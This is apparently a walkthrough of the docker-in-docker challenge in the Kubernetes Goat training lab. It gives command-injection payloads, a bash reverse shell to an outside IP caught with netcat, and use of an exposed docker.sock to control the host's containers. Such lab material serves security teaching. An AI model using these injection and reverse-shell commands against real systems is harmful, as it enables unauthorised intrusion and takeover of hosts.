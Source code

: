 If you are on KinD, then

```bash
git clone https://github.com/madhuakula/kubernetes-goat.git
cd kubernetes-goat/platforms/kind-setup
bash setup-kind-cluster-and-goat.sh
# Wait for a while to get all services up & running
watch -n 0.1 kubectl get po
bash access-kubernetes-goat.sh
```

Challenges list - http://127.0.0.1:1234/

DIND (docker-in-docker) exploitation - http://127.0.0.1:1231/

On your cloud instance, get ready to catch the reverse shell!

![Reverse shell](https://miro.medium.com/max/1400/1*CyVqkmA7wLYaippCGRXW5w.jpeg)
Reference: https://systemweakness.com/a-persistent-reverse-shell-on-macos-40fb65b3dacf?gi=70e6704f4f9e

```bash
# On your cloud instance
nc -nlvp 8888
```


```bash
127.0.0.1
127.0.0.1;id
127.0.0.1;whoami
127.0.0.1;hostname
127.0.0.1;ls -l
# Get a reverse shell to ease the enumeration
127.0.0.1;echo "bash -i >& /dev/tcp/18.141.250.7/8888 0>&1" > /tmp/run.sh;cat /tmp/run.sh
127.0.0.1;chmod +x /tmp/run.sh;bash /tmp/run.sh
```

https://highon.coffee/blog/reverse-shell-cheat-sheet/

```bash
nc -nlvp 8888
# you will get a shell here
# look for ambiguiencies in the files
find / -name docker.sock
apt update #But this is taking lots of time for some reason. So, we cannot install docker with apt commands!
# Download docker binary directly to save the time
wget https://download.docker.com/linux/static/stable/x86_64/docker-17.03.0-ce.tgz
tar xvf docker-17.03.0-ce.tgz
cd docker
./docker -H unix:///custom/docker/docker.sock ps
./docker -H unix:///custom/docker/docker.sock images
```

An attacker can replace the existing images with malicious images. The end-user will never get to know & since the image is existing on the local system, the user will use it without any disruption. You can even run privileged containers, mount host system, change the file system, kernel files, & lot more.
